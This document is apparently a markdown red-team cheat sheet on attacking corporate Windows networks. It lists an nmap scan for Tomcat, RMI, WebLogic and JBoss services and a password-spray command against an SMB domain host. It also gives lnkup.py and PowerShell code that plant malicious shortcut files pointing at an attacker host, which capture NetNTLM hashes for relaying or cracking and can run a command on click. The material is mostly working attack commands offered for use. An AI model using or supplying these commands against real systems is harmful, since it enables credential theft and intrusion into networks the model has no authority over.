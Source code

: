 







## Exploitation

### Identifying Quick Wins
- Tomcat
- JavaRMI
- WebLogic
- Jboss

```
nmap -p 8080,1098,1099,1050,8000,8888,8008,37471,40259,9010,7001 -iL ips.txt -oN tomcat_rmi_jboss.txt -sV
```

### adPeas
- https://github.com/61106960/adPEAS

### Password spray
- https://github.com/Greenwolf/Spray/blob/master/spray.sh

Spraying 3 password attempt for each user every 15 minutes without attempting password=username  
```
spray.sh -smb 192.168.0.10 users.txt seasons.txt 3 15 corp.company.local NOUSERUSER
```

- https://github.com/ShutdownRepo/smartbrute

### Force Authentication
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

.SCF, .URL, .RTF, .XML, 
  
#### LNK Files
If you get access to a share we can create a malicious .LNK file. This .LNK file will includes a refernece to the attacker computers.
You can after choose to Relay the *NetNTLM* hash or crack it.

- https://github.com/Plazmaz/LNKUp
Use --execute to specify a command to run when the shortcut is double clicked 
```
lnkup.py --host attackerIP --type ntlm --output out.lnk --execute "shutdown /s"
```

Using PowerShell
```
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Malicious.lnk")
$lnk.TargetPath = "\\<attackerIP>\@file.txt"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "LNK file"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
